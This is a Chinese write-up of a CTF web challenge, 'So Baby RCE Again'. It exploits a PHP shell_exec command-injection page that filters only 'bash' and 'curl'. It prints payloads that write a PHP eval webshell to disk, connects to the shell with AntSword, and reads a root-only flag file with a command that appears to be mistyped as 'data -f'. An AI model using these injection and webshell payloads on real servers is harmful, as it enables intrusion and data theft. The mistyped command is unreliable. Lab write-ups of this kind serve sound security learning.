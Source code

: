# Week5 So Baby RCE Again 200

## 0、知识点与技术

>   REC 远程命令执行

>   `shell_exec`： 通过 shell 执行命令并将完整的输出以字符串的方式返回

```bash
echo "<?php @eval(\$_POST['shell']);?>" > 3.php
echo "<?php eval(system('ls /'));?>" > 1.php
echo "<?php eval(system('cat /ffll444aaggg '));?>" > 1.php
```



## 1、分析

>   打开页面有如下代码

```php
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/bash|curl/i',$_GET["cmd"])){
        echo "Hacker!";
    }else{
        shell_exec($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

>   看代码可以知道是要通过`shell_exec()`去执行命令，但是进行测试会发现没有回显

>   其中除了不能有bash和curl并没有太多的限制，可以考虑使用`echo`写入文件

```php
?cmd=echo "<?php eval(system('ls'));?>" > 1.php
```

>   执行完成后，没有回显，然后访问`1.php`，可以看到文件写入成功

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221215224401.png)

## 2、解题

>   接下来就是要eval函数写个后门使用蚁剑连接一下

```php
echo "<?php @eval(\$_POST['shell']);?>" > 2.php
```

>   其中要注意的就是`$`要加个反斜杠，要不然访问文件会报错，使用蚁剑就会连接不上，正确情况是不会报错，页面是空白的

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221215224807.png)

>   连接成功后跑到根目录发现并不能直接读取flag，空白的，那么两种情况
>
>   一是：这是个假flag
>
>   二是：没有权限读取

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221215225040.png)

>   先验证一下是否真的没权限，右键打开终端，输入命令`ls -al`

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221215225321.png)

>   发现flag的文件权限为`-rwx------`，只有拥有者有权限，其他人不能读取

>   最后谷歌一波发现有一种方法可以越权读取文件，命令如下

```c
data -f ffll444aaggg
```

>   然后成功获取flag

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221215225839.png)
